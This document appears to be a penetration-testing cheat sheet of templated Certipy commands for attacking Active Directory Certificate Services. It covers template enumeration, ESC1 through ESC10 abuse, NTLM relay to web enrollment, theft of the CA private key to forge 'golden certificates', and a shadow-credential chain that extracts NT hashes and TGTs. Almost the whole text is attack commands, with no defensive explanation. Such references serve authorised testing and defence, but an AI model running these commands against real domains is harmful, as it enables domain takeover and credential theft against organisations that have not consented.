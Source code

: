 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential

## certipy - list certificate templates
#plateform/linux #target/remote #cat/RECON
```
certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> 
```

## certipy - request certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority>
```

## certipy - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> 
```

## certipy - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc-ip> -ldap-shell
```

## certipy - Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -backup -ca <certificate-authority> -target-ip <ca-ip>
```

## certipy - Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc-ip>:389
```

## certipy - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -upn <targeted-user>@<domain>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old
```

## certipy - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn>
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn> -template 'DomainController'
```

## certipy - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain> -p '<password>' -user <targeted-user> -upn <administrator-user>
```

## certipy - Get NT hash - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain> -p '<password>' -account <targeted-user>
```